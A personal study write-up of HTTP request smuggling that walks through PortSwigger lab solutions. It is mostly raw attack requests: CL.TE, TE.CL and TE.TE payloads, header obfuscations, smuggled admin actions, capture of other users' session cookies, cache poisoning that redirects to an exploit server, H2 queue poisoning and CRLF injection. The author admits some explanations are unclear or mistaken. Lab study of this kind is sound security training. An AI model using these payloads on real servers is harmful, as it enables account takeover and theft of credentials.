


# HTTP Request Smuggling
## Definition

http smuggling attack is a way for interfering with the way a website processes a sequence of http requests, allowing an attacker to have some privileged access.

### Note
When we have a get request, ti ignore the first header user X-Ignore attribute
for POST request, use the body. 

## How does it arise ?

Most http/1 have a specification to specify where the request ends.
`Content-length` and `Transfer-Encoding`.
The content length tells the length of the message's body example 

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    q=smuggling

Whereas the Transfer encoding header is used to specify that the message body uses chunked encoding  This means that the message body contains one or more chunks of data Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    b
    q=smuggling
    0

## perform http smug attack

The classic attack is to provide both header in the HTTP request and try to manipulate them so that the front-end and back-end servers process the request differently.

* CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
* TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
* TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

Most modern browsers use HTTP/2 to prevent the attack, so it needs to be changed manually some times.

### Note : 
Prepare burp for request smuggling

1. Downgrade to HTTP/1
2. change request method to POST
3. Disable automatic content-length
4. show non printable characters  

## Global detection 

## DETECT CL.TE vulnerability

The front end uses CL and the back uses TE
We create this payload as the following 

    POST / HTTP/1.1
    Host: 0a6e005704daed308085a8fa008800f1.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked
    \r\n
    3\r\n
    abc\r\n
    X\r\n

We set the content length to 6, to tell the front and that if it's using CL, that body should end at `abc`, and we should get a timeout after few seconds.

it' because that the front end won't be sending `X\r\n`, and looks at the chunked size equals to 3, and it'll be still waiting for the next chunked to come before the timeout.

## Detect TE.CL vulnerability

Send the same payload, and we should have an 400 error 'Invalid request'

it's because the front will read the first 3 bytes, and expect a hexadecimal value, instead it'll find an X, and throw an .error
regarding the backend, we throw this payload 

    POST / HTTP/1.1
    Host: 0a6e005704daed308085a8fa008800f1.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked
    \r\n
    0\r\n
    \r\n
    X\r\n

and we should receive a timeout, it's because the front end is using TE and it'll send only `0\r\n \r\n` and since the server is using CL (hypothesis) it will read the content-length of 6 and will receive only 5, and i'll wait for the end until a time-out.

## TE.CL attack

// didn't understand it a 100%

BUT : since the front end is using TE, we will use it to poison the backend server with the content length so just `1\r\n` will be processed, and the rest will be on hold, and it will be appended as a prefix to the next request to the backend.

So solve the lab, to have a GPOST : 
The payload will be the following : 

    POST / HTTP/1.1
    Host: 0a800053040d759d80be171500e800ba.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11
    \r\n
    x=1\r\n
    0\r\n
    \r\n

 and the next request will be normal 

    POST / HTTP/1.1
    Host: 0a800053040d759d80be171500e800ba.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 12

    Foo=bar 

So the front end will process the normal request as it uses chunked we have to specify the size of the chunked which is `5c` which is the length of the request from `GPOST` until `x=1` since it's a post method, the x=1 it's just a random value, next for the content-length we have to set if the length of the poisoned request +1, in order to make the the back-end wait for the extra byte, other wise if it's correct, it will just process it as a normal request.

## TE.TE

Here both the front and the back using TE, how to detect them ?
Send the same payload :
as mentioned above, the front needs to reject the payload above :

    POST / HTTP/1.1
    Host: 0a6e005704daed308085a8fa008800f1.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked
    \r\n
    3\r\n
    abc\r\n
    X\r\n

here the front will reject the value since it's using chunked value, it will read the first three bytes and will expect a hexadecimal value after, instead it receives an X which is invalid, this tells us the front uses the TE

for the back end we use this payload : 

    POST / HTTP/1.1
    Host: 0a6e005704daed308085a8fa008800f1.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked
    \r\n
    0\r\n
    \r\n
    X\r\n
 we'll get back a 200 ok, since the payload is valid, since X is dropped  the back end receives a valid value, if he was using a CL, it will be waiting for the rest of the request.

how to perform the attack, we need to obfuscate the TE chunked and doesn't use it, instead use CL, these are potential payloads : 

    Transfer-Encoding: xchunked

    Transfer-Encoding : chunked

    Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked

To solve the lab this is the used payload : 

    POST / HTTP/1.1
    Host: 0aa1001a03ee37b8800e6c2f008f0068.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked
    Transfer-Encoding: x
    \r\n
    56
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    \r\n
    0\r\n
    \r\n
 and then send normal request

## Confirming CL.TE vulnerabilities using differential responses

the image sums it up : 

We will send the request with the normal content length with the payload poisoning `GET /path` and adding `X-Ignore : X` without `\r\n` so that when we send a normal request the `Xget` will be ignored, and the HOST and other stuff will be taken into account.
also do not forget `0\r\n\r\n` in order to tell the back end that request ends, and poison with the next request.

to solve the lab this is the payload i used : 

    POST / HTTP/1.1
    Host: 0ae8001803718feb818975b600c900da.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 35
    Transfer-Encoding: chunked
    \r\n
    0\r\n
    \r\n
    GET /404 HTTP/1.1
    X-Ignore: x

and the normal request :

    POST / HTTP/1.1
    Host: 0ae8001803718feb818975b600c900da.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    foo=bar

Recap : the front uses CL, so we send all the request, the back uses TE so we tell him to end the request at `0\r\n\r\n` so the next `GET` will be on hold to prefix the next request. 

## Confirming TE.CL vulnerabilities using differential responses

Thanks to `Jarno Timmermans` the image is self explanatory: 

The payload i used to solve the lab

Attack request : 

    POST / HTTP/1.1
    Host: 0ab4001c04adf96c83d6aa6b00eb0069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    9b
    POST /root HTTP/1.1
    Host: 0ab4001c04adf96c83d6aa6b00eb0069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    \r\n
    0\r\n
    \r\n

Normal request : 

    POST / HTTP/1.1
    Host: 0ab4001c04adf96c83d6aa6b00eb0069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    foo=bar

Recap : So the front end since it's using TE, it will send all the payload, and the back end will be poisoned with 

    POST /root HTTP/1.1
    Host: 0ab4001c04adf96c83d6aa6b00eb0069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    \r\n
    0\r\n
    \r\n
and the content length is set to 13 it's 7 the size of `\r\n0\r\n\r\n` + `GET \` normally i mad a mistake it should be 14 since i used POST =) 

## Lab 1  solution

After detecting it was CL.TE vulnerability, we want to delete the username carlos, and access admin page, since the authorization doesn't work on the Front, the payload i used is : 

    POST / HTTP/1.1
    Host: 0a9000d40391160c82299d3800c200bb.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 153
    Transfer-Encoding: chunked

    3
    aaa
    0

    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 166

    foo=bar

and for the normal request : 

    POST / HTTP/1.1
    Host: 0a9000d40391160c82299d3800c200bb.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 7

    foo=bar

Explications : 

Since the backend uses TE, we want to poison with with `GET /admin`, so the backend will get 3 aaa and 0 and it will stop processing the request putting `GET/admin` on the queue, and we change `Host: localhost` to bypass the filters and the content body, just crap to make everything else into a body that is ignored. 

## Lab 2  solution

Same as the previous example : no need to explanations this time 
The payload used :

    POST / HTTP/1.1
    Host: 0ac0002003d090af81a42f2f00780000.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    50
    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Length: 6
    \r\n
    0\r\n
    \r\n

Following payload : 

    POST / HTTP/1.1
    Host: 0ac0002003d090af81a42f2f00780000.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    foo=bar

## lab 3 Revealing front-end request rewriting

We have the front end server adding headers into the request, so at that point we can't know for sure what it is, so if we want to discover the hidden header, we need to search for a post method and smuggle the parameter within the ,next request : 
example: 

    POST / HTTP/1.1
    Host: 0a90007704849095848f4fe2002a0016.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 204
    Transfer-Encoding: chunked

    3
    abc
    0

    POST / HTTP/1.1
    Host: 0a90007704849095848f4fe2002a0016.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 178

    search=foobar
NB : We have to make sure that the content length is the minimum length of the next request sent, because we don't know how many can add the front server to the request.

the parameter `search` do exists o, the page, and the response will be something like this : 

    <section class=blog-header>
    <h1>0 search results for 'foobarPOST / HTTP/1.1
        X-ahjRdz-Ip: 89.84.71.12
        Host: 0a90007704849095848f4fe2002a0016.web-security-academy.net
        Content-Type: application/x-www-form-urlencoded
        Content-'
    </h1>
                      
And we know that `X-ahjRdz-Ip` is what we're looking for, then we can inject it to the next request to have admin access :

    POST / HTTP/1.1
    Host: 0a90007704849095848f4fe2002a0016.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 196
    Transfer-Encoding: chunked

    3
    abc
    0

    POST /admin HTTP/1.1
    Host: 0a90007704849095848f4fe2002a0016.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    X-ahjRdz-Ip: 127.0.0.1
    Content-Length: 6

    x=

## lab 4 : Capturing other users' requests

The goal here is to create a smuggle request and wait for and admin to connect for example, in order to concat his request to ours.

for example we have a blog post, we launch this payload with larger ( not too large) Content-Length :
    GET / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 330

    0

    POST /post/comment HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 400
    Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

    csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=

and we send the normal request just after, we keep doing that and wait until an admin connects to steals his credentials.

The payload i used to solve the lab :

    POST / HTTP/1.1
    Host: 0a880006044fc97f83f12d0d002d00c8.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 333
    Transfer-Encoding: chunked

    0

    POST /post/comment HTTP/1.1
    Host: 0a880006044fc97f83f12d0d002d00c8.web-security-academy.net
    Cookie: session=h3fIWuvWkg4iTSE7YMTx2TXh89Z6I1sK
    Content-Length: 910
    Content-Type: application/x-www-form-urlencoded

    csrf=pb4FYyQ2GG7hgi8WXEorpd1FlfZBWxV1&postId=7&name=h&email=em%40em.com&website=https%3A%2F%2Flink.com&comment=h

Be careful the next payload sent, needs to have a real length of the same content-length in the smuggled payload ( her in the example 910), and keep trying until getting 200 response ok, means that an admin got connected.

## lab 5: Using HTTP request smuggling to exploit reflected XSS
We suppose that a reflected XSS happens in the `User-Agent`, we can see it in burp if we change the user agent, it's a hidden html tag, and the payload to inject the xss i used is the following : 

    POST / HTTP/1.1
    Host: 0a52004104d2c654831b7e24006e00b0.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 221
    Transfer-Encoding: chunked

    3
    aaa
    0

    GET /post?postId=8 HTTP/1.1
    Host: 0a52004104d2c654831b7e24006e00b0.web-security-academy.net
    Cookie: session=sV9xldpycYUrRCSjRd1b7PjNRlbbFkFp
    User-Agent: ">
    Content-length: 4

    x=

* It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it. You just smuggle a request containing the XSS payload and the next user's request that is processed by the back-end server will be hit.
* It can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in a normal reflected XSS attack, such as HTTP request headers.

## cache poisoning smuggled request

Didn't really understand what is happening here
OK, so the first thing we need to do is to find offline local redirect, when browsing the web server, and try to smuggle this request ! and we try to confirm the type of request, in out case it's a CE.TL

The payload use is the following : 

    POST / HTTP/1.1
    Host: 0a7000280402947f81b193bf00290030.web-security-academy.net
    Cookie: session=2bXEbqUkBtfcFXKLhKeIOLTWYbFtDKym
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 137
    Transfer-Encoding: chunked

    3
    333
    0

    GET /post/next?postId=7 HTTP/1.1
    Host: foobar.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 3

    X=

When we add `Host: foorbar.com`, in the next request the application will redirect the host into the foobar (offsite redirect), and here we can use out malicious website, and inject an XSS payload.

We notice also the website requests a static asset `/resources/js/tracking.js` with age and cache-control, if we keep sending the request the age keeps going up, (seconds).
What we gonna do is keep sending the `/resources/js/tracking.js` until the age is almost the max (27), and then send a smuggled request followed by another  `/resources/js/tracking.js` request.
and each time someone accesses the page for 30 seconds, he will be redirected to our malicious website.

## HTTP request smuggling to perform web cache deception

* In web cache poisoning, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
* In web cache deception, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

The payload used is the following : 
    
    POST / HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 42
    Transfer-Encoding: chunked

    0

    GET /my-account HTTP/1.1
    X-Ignore: X

so that when the victim logs in, it appends its session cookies, and we get the value of what we wanted.
still here we will use the same technique, send the cache multiple times to increase the age value, before sending the smuggled request couple of times, and then retry to send the cache request until get a 200 ok request
(didn't quite understand tbh)
# Advanced request smuggling
## Detecting the vulnerability

Here we use HTTP/2 normally it's secure but, some servers due to the RFC, might allow downgrading to http1.1 : The Payload to discover the vulnerability is to use differential attack.
The payload used is the following : 

    POST / HTTP/2
    Host: 0acd00900429745f817a5c1f00a1009c.web-security-academy.net
    Cookie: session=EQjwkwIIjWokqYsIjiddF9CGRY98cQWA
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    x=1
    GET /totot HTTP/1.1
    X-Ignore: x

We set the content-length to five, to smuggle the request after `x=1\r\n`, and we should get at some point en error response. 
we need to keep trying in case that another user is browsing at the same time.
## Solve the lab
We will check an offsite redirect.
pick one of the java script folders in the http requests and try to do a get request to that folder, it will be our local redirect.

the payload to try an offline redirect request : 

    POST / HTTP/2
    Host: 0acd00900429745f817a5c1f00a1009c.web-security-academy.net
    Cookie: session=EQjwkwIIjWokqYsIjiddF9CGRY98cQWA
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    x=1
    GET /resources/js HTTP/1.1
    Host: toto.com
    Content-length: 5

    X=1

We should have at some point (after 4 to 6 trials) a 302 found when executing a normal request

Example of a response of a successful request

    HTTP/2 302 Found
    Location: https://toto.com/resources/js/
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0

Here we have to create our own malicious website and inject javascript payload into the response and don't forget to set th path to `/resources/js/` and `Content-Type: text/javascript; charset=utf-8`
and the payload in the body `alert(document.cookie)` and set the website into the host of the smuggled request, so that the cache will redirect users to our malicious website.

    POST / HTTP/2
    Host: 0acd00900429745f817a5c1f00a1009c.web-security-academy.net
    Cookie: session=EQjwkwIIjWokqYsIjiddF9CGRY98cQWA
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    x=1
    GET /resources/js HTTP/1.1
    Host: exploit-0acf00460493743f81615b3b014600a7.exploit-server.net
    Content-length: 5

    X=1
 and we should keep doing that until we have to 200 ok responses for both requests (attack and normal), better uses a script to launch the attack request followed bu a normal request with a 300ms lap between them.

 ## Response queue poisoning H2.TE

 The probability of this to work is 1/100.
 the goal of this attack is to poison the backend with 404 error queues, and wait for an admin to login, and he'll get the our 404 response, and when we send the following response we hope to get his 302 response in our next queue.

 So for this we need to keep sending the same payload multiple times and just wait, the payload is formed with two complete requests, and the back end is a TE vulnerable.

Remember to terminate the smuggled request properly by including the sequence \r\n\r\n after the Host header.

If you receive some 200 responses but can't capture a 302 response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again. 

Confirming H2.TE vulnerability.

    POST / HTTP/2
    Host: 0a6300e5031f645f808858e9009a0029.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /jkhrfg HTTP/1.1
    X-Ignore: x

And then we should get an HTTP header 404 not found

Then, we modify both the paths in the request, and we make the second smuggled request a valid one, and we keep sending only the attack request and again hoping to get a 302 OK

    POST /rgegr HTTP/2
    Host: 0a6300e5031f645f808858e9009a0029.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /jkhrfg HTTP/1.1
    Host: 0a6300e5031f645f808858e9009a0029.web-security-academy.net
    \r\n // don't forget it.
 We ca automate the process with burp, and DON'T FORGET TO DEACTIVATE UPDATE CONTENT-LENGTH !! OTHERWISE IT WILL NOT WORK

 ## Request smuggling via CRLF injection (Carriage Return Line Feed) 
 This lab is very tricky,
 we first need to confirm the vulnerability with this payload : 
We try this normal payload, but it's not working, since we assume that the front end changes the request and removes the TE
    POST / HTTP/2
    Host: 0aa4008403b6223b808fa3f6006400f5.web-security-academy.net
    Cookie: session=zddT9jkVATHFQ8bDQVmg9rRI17DxjGCW
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /bahhjk HTTP/1.1
    X-Ignore: x

The first payload it's not working, so what we have to do is add for example

`foo: bar\r\nTransfer-Encoding: chunked` in burp binary (request headers), and remove it from the head, and it should work 

and to get the payload, we have a search bar, that we can add, and smuggle this request, so that if an admin get poisoned we can get his creds.
So we smuggle this payload 

    POST / HTTP/2
    Host: 0aa4008403b6223b808fa3f6006400f5.web-security-academy.net
    Cookie: session=zddT9jkVATHFQ8bDQVmg9rRI17DxjGCW
    Content-Type: application/x-www-form-urlencoded

    0

    POST / HTTP/1.1
    Host: 0aa4008403b6223b808fa3f6006400f5.web-security-academy.net
    Cookie: session=zddT9jkVATHFQ8bDQVmg9rRI17DxjGCW
    Content-Length: 900
    Content-Type: application/x-www-form-urlencoded

    search=toto

We sent the content-length to a 1000 to try to get the admin cookie, and don't forget to set out session cookie finally add  `foo: bar\r\nTransfer-Encoding: chunked` and we have just to wait if the admin get poisoned we get his cookie in the search bar.

## HTTP/2 request splitting

Het we are going to do like we did in queue poisoning, where we will send multiple 404 requests and 
and just by luck i got the admin page, not even doing anything =) just writing the payload =)

so here the payload is just simple, change to post method, and add

    foo bar \r\n\r\n
    GET /nonexisting HTTP/1.1\r\n
    HOST : vulnerable host  

and that's is 
## Bypassing access controls via HTTP/2 request tunnelling

The aim of this lab, is to bypass the http access control, and try to steal SSL code, and delete carlos user, from accessing admin page:
1. Validate the vulnerability, buy adding CRLF payload in burp.

We add this payload 

in the name 

    foo: bar\r\n
    Host: test.com

and Value 

    bar

and we should have a response that tells us, we can't connect to test.com, that confirms tha vulnerability
2. steal ssl data by smuggling http request exploiting the search bar.

This explains, to to exploit the search bar to show data

The image explains the process of concatenating the requests.

So when the front end will add headers, the smuggled request will be added in the POST body 

Here we can see that the front end adds ssl header, we can change them and add them to the smuggled request

in this case it's a blind smuggled ! so i cheated because i know the form the header, and did this payload to solve the lab.

